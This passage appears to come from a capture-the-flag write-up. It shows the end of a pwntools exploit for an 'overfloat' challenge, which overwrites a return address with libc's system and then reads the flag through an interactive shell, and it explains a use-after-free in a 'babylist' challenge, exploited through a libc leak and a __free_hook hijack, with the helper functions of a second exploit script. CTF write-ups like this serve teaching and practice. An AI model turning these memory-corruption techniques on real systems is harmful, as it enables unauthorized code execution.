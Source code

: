 ```python
log.info(hex(libc.sym['system']))
sd("5.881103E-39")
sd("0")

sd("5.881243E-39")
sd(0)
context.log_level='debug'
#gdb.attach(p,'b *0x000000000400982')
a=tran.tran(sh&0xffffffff)
b=tran.tran(base>>32)
c=tran.tran(libc.sym['system']&0xffffffff)
sd("{}".format(a))
sd("{}".format(b))
sd("{}".format(c))
sd("{}".format(b))
p.sendlineafter(": ","done")
p.sendline("cat home/overfloat/flag")
p.interactive()
```


# babylist
An little challenge about `vector` & `shallow copy`
the function of `copy` is vulnerable , It just copies the address of the vector.
So it may lead to `uaf`. 
```arm
else
  {
    v2 = get_idx();
    v3 = (node *)operator new(0x88uLL);
    init_the_chunk((__int64)v3);
    list[i] = v3;
    memcpy(list[i], list[v2], 0x88uLL);
    v4 = std::operator<<<std::char_traits<char>>(&std::cout, "Enter name for new list:");
    std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
    std::istream::getline((std::istream *)&std::cin, list[i]->name, 0x70LL);
    v0 = std::operator<<<std::char_traits<char>>(&std::cout, "List has been duplicated!");
  }
```
so we can pwn it by:
* uaf to leak the libc_base
* hijacking __free_hook

There is my exp:
```python
from pwn import *
def cmd(n):
	p.sendlineafter("> ",str(n))
def add(name):
	cmd(1)
	p.sendlineafter("list:\n",str(name))
def num(idx,n):
	cmd(2)
	p.sendlineafter("list:\n",str(idx))
	p.sendlineafter("add:\n",str(n))
def show(idx,index):
	cmd(3)
	p.sendlineafter("list:\n",str(idx))
	p.sendlineafter("list:\n",str(index))
def cp(idx,name):
	cmd(4)
	p.sendlineafter("list:\n",str(idx))
	p.sendlineafter("list:\n",str(name))
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team